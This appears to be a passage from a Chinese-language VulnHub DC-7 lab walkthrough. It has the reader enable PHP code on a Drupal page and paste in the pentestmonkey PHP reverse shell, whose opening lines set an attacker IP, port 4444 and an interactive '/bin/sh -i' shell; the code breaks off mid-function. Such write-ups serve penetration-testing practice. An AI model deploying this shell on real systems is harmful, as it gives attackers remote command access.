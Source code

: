 回到主页，在左边的 Tools 栏中点击 Add content -> Basic page,Text format 选择 PHP code

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC7/14.png)

写入一个 php 反向 shell 即可

找到一个可以直接利用的 php 源码 http://pentestmonkey.net/tools/web-shells/php-reverse-shell
```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.141.134';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
```